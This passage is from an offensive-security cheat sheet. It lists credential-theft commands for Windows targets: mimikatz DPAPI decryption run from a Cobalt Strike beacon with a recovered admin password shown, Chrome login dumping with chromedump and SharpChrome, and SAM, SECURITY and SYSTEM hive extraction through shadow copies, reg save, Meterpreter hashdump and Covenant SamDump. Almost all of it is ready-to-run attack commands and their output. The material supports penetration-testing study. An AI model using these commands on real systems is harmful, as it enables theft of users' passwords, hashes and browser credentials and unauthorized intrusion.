 ```
[domainkey] with RPC
[DC] 'vault.io' will be the domain
[DC] 'dc01.vault.io' will be the DC server
  key : [...]

# decrypt
beacon> mimikatz dpapi::cred /in:c:\users\h.samuelson\AppData\Local\Microsoft\Credentials\<credential> /masterkey:<masterkey>
[...]
UserName: vault\server_admin
CredentialBlog: l33tPw4vault
```

Chrome

```
# cs
beacon> chromedump

# SharpChrome
beacon> execute-assembly /opt/tools/SharpChrome.exe history logins
```

### Resources
- https://github.com/djhohnstein/SharpChrome


#### SAM

###### Shadow

```
cmd> wmic shadowcopy call create Volume='C:\'
cmd> copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\sam C:\users\offsec.corp1\Downloads\sam
cmd> copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\security C:\users\offsec.corp1\Downloads\security
```

###### Registry

```
reg save HKLM\sam C:\users\offsec.corp1\Downloads\sam
reg save HKLM\system C:\users\offsec.corp1\Downloads\system
```

###### Meterp

```
hashdump
```

###### Covenant

```
> SamDump
```
